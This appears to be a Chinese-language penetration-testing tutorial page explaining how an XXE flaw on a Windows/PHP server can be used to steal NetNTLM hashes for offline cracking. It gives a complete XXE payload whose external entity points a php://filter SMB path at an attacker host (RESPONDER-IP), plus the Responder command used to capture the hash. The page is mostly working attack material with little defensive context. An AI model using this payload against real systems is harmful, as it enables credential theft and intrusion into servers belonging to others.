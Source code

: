 ![](img/6c36840a1e9d9d0bef5804533473b855.png)

# XXE 和 NetNTLM

如果目标在 Windows 服务器上，XXE 也可以被用来在`metasploit`或`Responder`工具的帮助下窃取 *NetNTLM* 哈希，被窃取的 *NetNTLM* 哈希不能用来通过哈希攻击，但可以被破解得到明文密码。‌

为了与 SMB 协议交互(特别是在 PHP 中的 XXE 的情况下),我们可以使用`php://`包装器，而与 SMB 协议交互的 URI 是`//‌`。

当然，对于有效载荷，我们可以使用外部实体(通用/参数)。

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//RESPONDER-IP/WhatEver">]><root><name>test</name><tel>021212</tel><email>&steal;</email><password>pwd</password></root>‌
```

运行命令`Responder`

```
$ ./Responder.py -I <INTERFACES_NAME>
```

![](img/a1d77ce3f51994eba5b97c36ec4d9547.png)
